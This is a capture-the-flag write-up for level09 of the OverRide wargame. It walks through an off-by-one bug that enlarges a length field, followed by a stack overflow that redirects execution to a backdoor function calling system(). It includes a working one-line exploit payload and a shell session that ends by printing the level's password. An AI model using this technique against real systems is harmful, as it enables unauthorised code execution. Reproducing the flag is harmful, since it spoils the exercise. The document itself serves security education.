 # level09

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program is vulnerable to `buffer overflow` attack.

First, I found this function while disassembled code, and the goal of the level became obvious. We need to call this function.
```c
void secret_backdoor(void) {
    char tmp[128];

    fgets(tmp, 128, stdin);
    system(tmp);
}
```

Let's find out it's address:
```bash
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

To call this function we need first to analyze the [source code](./source.c):
```c
struct s_data {
    int len;
    char username[40];
    char msg[140];
};
...
void handle_msg() {
    struct s_data data;

    memset(data.username, 0, 40);

    data.len = 140;
    set_username(&data);
    set_msg(&data);
    puts(">: Msg sent!");
}
```

First, thing we see, that `data` contains two buffers that possibly can be overflowed. <br>
The size of this struct is 140 + 40 + 4 = 184 bytes. <br>

From the disassembled code, we can see that in the `handle_msg` 192 bytes allocated on stack. <br>
And the address of beginning of the `data` is `RSP` or `RBP - 192`. <br>
To overwrite return address of this function, we need to overwrite 192 bytes reserved for local variables, <br>
8 bytes for saved `EBP` and the next 8 bytes will be the address of saved `EIP` we need to change.
```asm
handle_msg:
    push   %rbp
    mov    %rsp,%rbp
    sub    $0xc0,%rsp   ; 192 bytes allocated on stack`
   
    lea    -0xc0(%rbp),%rax
    ...
```

Now let's put our attention at `set_msg` function, as it reads a way too more chars than the size of buffer we want to overflow:
```c
void set_msg(struct s_data *data) {
    char tmp[1024];

    memset(tmp, 0, 1024);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");

    fgets(tmp, 1024, stdin);

    strncpy(data->msg, tmp, data->len);
}
```
Well, the only thing that stops us from copying using `strncpy` is `data->len` set to 140 in the `handle_msg`. <br>

A little mistake in the source code helps us to avoid this restriction:
```c
void set_username(struct s_data *data) {
    int i;
    char tmp[140];

    memset(tmp, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");

    fgets(tmp, 128, stdin);

    for (i = 0; i <= 40 && tmp[i]; i++) {
        data->username[i] = tmp[i];
    }
    printf(">: Welcome, %s", data->username);
}
```

Not see ? `for` loop copying `41` bytes instead of 40, and this last byte is the lowest 8 bits of `data->len`. <br>
This helps us to increase data->len up to 0xff or `255`. <br>

We don't need that much, `208` bytes (`0xd0`) will be perfect. <br>
Again, 140 bytes of `msg` + 40 bytes of `username` + 4 bytes of `len` + 8 unused bytes + 8 bytes for saved `EBP` + 8 bytes for new return address.

We should also remember about `\n` if we don't want first `fgets` to read more than we want to.

Let's finish this great project as well as the branch:
```bash
level09@OverRide:~$ (python -c 'print "mhufflep" * 5 + "\xd0\x0a" + "mhufflep" * 25 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1]'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, mhufflepmhufflepmhufflepmhufflepmhufflep�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cd ../end
ls -la
total 13
dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
dr-x--x--x  1 root root   260 Oct  2  2016 ..
-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## References
